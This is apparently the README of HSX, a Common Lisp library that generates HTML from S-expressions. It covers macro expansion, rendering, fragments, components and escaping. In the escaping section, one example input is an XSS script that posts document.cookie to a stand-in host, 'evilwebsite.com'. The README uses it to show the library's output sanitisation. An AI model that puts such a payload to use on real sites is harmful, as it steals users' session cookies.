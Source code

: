 # HSX – Hypertext S-expression

**HSX** is a lightweight and expressive HTML generation library for Common Lisp, inspired by JSX. It allows you to write HTML using native Lisp syntax.

> 🚧 **ALPHA NOTICE:**  
> This library is still in early development. APIs may change.  
> See [release notes](https://github.com/skyizwhite/hsx/releases) for details.

## ⚙️ How HSX Works

Every tag or component inside an `(hsx ...)` form is transformed into a Lisp expression of the form:

```lisp
(create-element type props children)
```

For example:

```lisp
(hsx
  (article :class "container"
    (h1 "Title")
    (p "Paragraph")
    (~share-button :service :x))
```
Is internally transformed (by macro expansion) into:

```lisp
(create-element :article '(:class "container")
  (list
    (create-element :h1 nil (list "Title"))
    (create-element :p nil (list "Paragraph"))
    (create-element #'~share-button '(:service :x) (list))))
```

This is made possible via the hsx macro, which detects HTML tags and components, then rewrites them using create-element. Tags are converted to keywords (e.g., div → :div), and custom components (starting with ~) are passed as functions.

## 🚀 Quick Example

```lisp
(hsx
  (div :id "main" :class "container"
    (h1 "Hello, HSX!")
    (p "This is a simple paragraph.")))
```

Generates:

```html
<div id="main" class="container">
  <h1>Hello, HSX!</h1>
  <p>This is a simple paragraph.</p>
</div>
```

## 📝 Rendering

Use `render-to-string` to convert an HSX structure to a string of HTML:

```lisp
(render-to-string
  (hsx ...))
``` 

## 🔐 Escaping text

All elements automatically escape special characters in content to prevent XSS and HTML injection:

```lisp
(hsx
  (div "<script>fetch('evilwebsite.com', { method: 'POST', body: document.cookie })</script>"))
```
Outputs:

```html
<div>&lt;script&gt;fetch(&#x27;evilwebsite.com&#x27;, { method: &#x27;POST&#x27;, body: document.cookie })&lt;&#x2F;script&gt;</div>
```

Use the special tag `raw!` to inject trusted, unescaped HTML:

```lisp
(hsx
  (article (raw! "HTML text here ..."))
```

## 🧩 Fragments

Use `<>` tag to group multiple sibling elements without wrapping them in a container tag:

```lisp
(hsx
  (<>
    (p "One")
    (p "Two")))
```

Outputs:

```html
<p>One</p>
<p>Two</p>
```

Note: `raw!` tag is a fragment that disables HTML escaping for its children.

## 🧱 Components

Define reusable components using `defcomp` macro. Component names must start with `~`.

*Keyword-style*

```lisp
(defcomp ~card (&key title children)
  (hsx
    (div :class "card"
      (h2 title)
      children)))
```

*Property-list style*

```lisp
(defcomp ~card (&rest props)
  (hsx
    (div :class "card"
      (h2 (getf props :title))
      (getf props :children))))
```

### Usage

```lisp
(hsx
  (~card :title "Hello"
    (p "This is a card.")))
```

Outputs:

```html
<div class="card">
  <h2>Hello</h2>
  <p>This is a card.</p>
</div>
```

## 🧬 Logic and Interpolation

You can freely embed Lisp expressions, conditionals, and loops inside HSX forms:

```lisp
(hsx
  (div
    (if (> (random 10) 5)
        (hsx (p "High!"))
        (hsx (p "Low!")))))
```

Or loop:

```lisp
(hsx
  (ul
    (loop :for item :in todo-list :collect
      (hsx (li item))))))
```

## 📄 License

MIT License

© 2024 Akira Tempaku

© 2018 Bo Yao (original [flute](https://github.com/ailisp/flute) project)
 
